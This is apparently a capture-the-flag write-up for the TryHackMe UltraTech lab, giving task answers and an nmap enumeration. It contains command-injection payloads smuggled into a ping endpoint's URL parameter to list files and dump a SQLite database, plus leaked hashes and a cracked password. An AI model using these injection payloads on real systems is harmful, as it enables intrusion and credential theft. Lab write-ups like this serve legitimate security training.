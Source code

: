 
## Task 3: Exploitation

### 1. There is a database lying around; what is its filename?
- **Answer**: `utech.db.sqlite`
- **Explanation**: Testing the `/ping` endpoint for command injection with `http://10.10.223.16:8081/ping?ip=`ls`` reveals a SQLite database file:
  ```
  ping: utech.db.sqlite: Name or service not known
  ```

### 2. What is the first user's password hash?
- **Answer**: `f357a0c52799563c7c7b76c1e7543a32`
- **Explanation**: Using command injection to read the database (`http://10.10.223.16:8081/ping?ip=`cat%20utech.db.sqlite``), the output includes:
  ```
  r00t f357a0c52799563c7c7b76c1e7543a32
  admin 0d0ea5111e3c1def594c1684e3b9be84
  ```
  The first user's hash is for `r00t`.

### 3. What is the password associated with this hash?
- **Answer**: `n100906`
- **Explanation**: The hash `f357a0c52799563c7c7b76c1e7543a32` is MD5 (identified via tools like `hashid`). Cracking it with an online tool like CrackStation or `hashcat` with `rockyou.txt` yields the password `n100906`.[](https://www.aldeid.com/wiki/TryHackMe-UltraTech)[](https://pugsandinfosec.com/posts/tryhackme/tryhackme_ultratech/)

---

## Task 4: Privilege Escalation

### 1. What are the first 9 characters of the root user's private SSH key?
- **Answer**: `MIIEogIBA`
- **Explanation**: After escalating to root, the private SSH key is found in `/root/.ssh/id_rsa`. The first 9 characters are `MIIEogIBA` (a common RSA key prefix).[](https://medium.com/%40MostafaAnas/ultratech-tryhackme-write-up-b75cef6c2cc4)

---

## Detailed Steps

### 1. Initial Enumeration
- Ran an `nmap` scan:
  ```bash
  nmap -sV -A -p- 10.10.223.16
  ```
- Results:
  ```
  PORT      STATE SERVICE VERSION
  21/tcp    open  ftp     vsftpd 3.0.3
  22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
  8081/tcp  open  http    Node.js Express framework
  31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  ```
- Identified services: FTP (21), SSH (22), Node.js HTTP (8081), Apache HTTP (31331).
